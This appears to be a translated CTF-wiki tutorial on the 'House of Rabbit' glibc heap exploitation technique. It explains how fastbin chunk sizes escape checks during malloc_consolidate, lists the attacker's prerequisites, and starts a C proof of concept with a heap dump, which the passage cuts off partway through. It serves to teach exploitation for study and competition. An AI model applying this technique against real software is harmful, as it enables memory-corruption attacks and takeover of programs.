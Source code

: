 [EN](./house_of_rabbit.md) | [ZH](./house_of_rabbit-zh.md)
# House of Rabbit



## Introduction
House of rabbit is a technique for counterfeiting piles that was introduced as early as 2017 but only appeared in the CTF competition in the last two months. We generally use it in the fastbin attack, because other bins such as unsorted bin have better utilization.


## Principle
We know that fastbin will use the same size of the released heap block to manage with a singly linked list, the allocation will check whether the size is reasonable, if it is unreasonable, the program will exit abnormally. The house of rabbit uses the heap blocks in the fastbin at malloc consolidate to merge and the size is not checked to forge a fake heap to prepare for further utilization.


Since the original author&#39;s [POC] (https://github.com/shift-crops/House_of_Rabbit) requires more conditions, here I directly introduce the nature of this attack.


`Prerequisites`:
1. You can modify the fastbin fd pointer or size
2. Can trigger malloc consolidate (merge top or malloc big chunk, etc.)




Let’s take a look at POC
`POC 1`: modify the size of fastbin chunk

`` `Cpp
unsigned long* chunk1=malloc(0x40); //0x602000

unsigned long* chunk2=malloc(0x40); //0x602050

malloc(0x10);

free(chunk1);

free(chunk2);

/* Heap layout

0000| 0x602000 --> 0x0 

0008| 0x602008 --> 0x51 ('Q')

0016| 0x602010 --> 0x0 

..... 

0080| 0x602050 --> 0x0 

0088| 0x602058 --> 0x51 ('Q')

0096| 0x602060 --> 0x602000 --> 0x0 
